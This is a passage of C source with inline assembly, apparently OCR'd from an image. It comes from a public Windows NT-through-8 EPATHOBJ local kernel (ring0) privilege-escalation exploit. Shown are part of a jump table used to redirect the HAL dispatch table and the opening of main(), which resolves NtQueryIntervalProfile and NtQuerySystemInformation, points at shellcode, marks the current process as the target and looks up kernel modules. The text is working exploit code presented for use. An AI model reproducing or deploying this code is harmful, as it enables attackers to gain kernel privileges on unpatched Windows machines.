     __asm dec eax
    __asm jmp dword ptr [ebp+0x40]; //  6
    __asm dec ecx
    __asm jmp dword ptr [ebp+0x40]; //  7
    __asm dec edx
    __asm jmp dword ptr [ebp+0x40]; //  8
    __asm dec ebx
    __asm jmp dword ptr [ebp+0x40]; //  9
    __asm dec esi
    __asm jmp dword ptr [ebp+0x40]; // 10
    __asm dec edi
    __asm jmp dword ptr [ebp+0x40]; // 11

    // Mark end of table.
    __asm {
        _emit 0
        _emit 0
        _emit 0
        _emit 0
    }
}

int main(int argc, char **argv)
{
    HANDLE               Thread;
    HDC                  Device;
    ULONG                Size;
    ULONG                PointNum;
    HMODULE              KernelHandle;
    PULONG               DispatchRedirect;
    PULONG               Interval;
    ULONG                SavedInterval;
    RTL_PROCESS_MODULES  ModuleInfo;

    LogMessage(L_INFO, "\r--------------------------------------------------\n"
                       "\rWindows NT/2K/XP/2K3/VISTA/2K8/7/8 EPATHOBJ local ring0 exploit\n"
                       "\r------------------- taviso () cmpxchg8b com, programmeboy () gmail com ---\n"
                       "\n");

    NtQueryIntervalProfile    = GetProcAddress(GetModuleHandle("ntdll"), "NtQueryIntervalProfile");
    NtQuerySystemInformation  = GetProcAddress(GetModuleHandle("ntdll"), "NtQuerySystemInformation");
    Mutex                     = CreateMutex(NULL, FALSE, NULL);
    DispatchRedirect          = (PVOID) HalDispatchRedirect;
    Interval                  = (PULONG) ShellCode;
    SavedInterval             = Interval[0];
    TargetPid                 = GetCurrentProcessId();

    LogMessage(L_INFO, "NtQueryIntervalProfile () %p", NtQueryIntervalProfile);
    LogMessage(L_INFO, "NtQuerySystemInformation () %p", NtQuerySystemInformation);

    // Lookup the address of system modules.
    NtQuerySystemInformation(SystemModuleInformation,
                             &amp;ModuleInfo,
                             sizeof ModuleInfo,
                             NULL);

